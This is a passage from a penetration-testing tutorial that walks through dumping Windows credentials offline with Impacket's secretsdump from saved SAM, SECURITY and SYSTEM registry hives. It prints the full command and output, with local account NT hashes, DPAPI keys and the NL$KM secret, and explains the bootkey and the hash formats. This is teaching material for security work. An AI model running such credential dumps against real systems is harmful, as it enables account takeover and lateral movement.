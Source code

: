Using `secretsdump` is straightforward. We simply run the script with Python and specify each of the hive files we retrieved from the target host.

```shell-session
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```

Here we see that `secretsdump` successfully dumped the `local` SAM hashes, along with data from `hklm\security`, including cached domain logon information and LSA secrets such as the machine and user keys for DPAPI.

Notice that the first step `secretsdump` performs is retrieving the `system bootkey` before proceeding to dump the `local SAM hashes`. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted — which is why having copies of the relevant registry hives, as discussed earlier, is crucial.

Moving on, notice the following line:

```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

This tells us how to interpret the output and which hashes we can attempt to crack. Most modern Windows operating systems store passwords as `NT hashes`. Older systems (such as those prior to Windows Vista and Windows Server 2008) may store passwords as `LM hashes`, which are weaker and easier to crack. Therefore, LM hashes are useful if the target is running an older version of Windows.
